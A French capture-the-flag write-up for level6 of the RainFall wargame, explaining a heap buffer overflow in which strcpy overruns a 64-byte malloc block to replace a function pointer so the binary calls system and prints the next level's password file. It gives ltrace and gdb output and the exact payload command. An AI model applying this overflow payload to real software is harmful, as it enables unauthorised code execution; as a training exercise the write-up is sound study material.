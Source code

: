 # level6

Ici on a une fonction main qui alloue sur la heap un espace de 64 bytes suivi d'un espace de 4 bytes 
Qui copie notre argv[1] dans le buffer alloue par malloc avec strcpy

ltrace ./level6

level6@RainFall:~$ ltrace ./level6 3
__libc_start_main(0x804847c, 2, 0xbffff7e4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                             = 0x0804a008
malloc(4)                              = 0x0804a050
strcpy(0x0804a008, "3")                = 0x0804a008
puts("Nope"Nope
)                           = 5
+++ exited (status 5) +++

Avec ltrace on a les adresses de retour des malloc

En faisant un print de la memoire sur l'adresse 0x0804a008 on s'apercoit que les blocs de deux malloc se suivent 

(gdb) x/s 0x0804a008
0x804a008:       'A' <repeats 70 times>
(gdb) x/32wx 0x0804a008
0x804a008:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x00004141      0x08048468      0x00000000

Donc on comprend que les deux blocs memoire allouer par malloc se suivent sur la heap
On va devoir ecraser l'adresse de m() (08048468) qui est dans le malloc de 4 par l'adresse de n() (08048454) pour que lorsque le programme va call *eax il va donc appeler n() qui fait appel system("/bin/cat /home/user/level7/.pass")

Donc il suffit de trouver l'offset entre le debut du buffer et ou on ecrase l'adresse du malloc(4)

Offset : 72
Ecart de 8 ???? HEADER MALLOC ??????

Sur gdb on peut donner un parametre via cette commande :
set args $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')

en ligne de commande on peut 
./level6   $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
ou
level6@RainFall:~$ ./level6   `python -c 'print "A"*72 + "\x54\x84\x04\x08"'`
Pour qu'il execute la commande python en premier et qu'il l'a prenne comme argument sinon c'est envoyer sur stdin mais ce n'est pas ce que l'on veut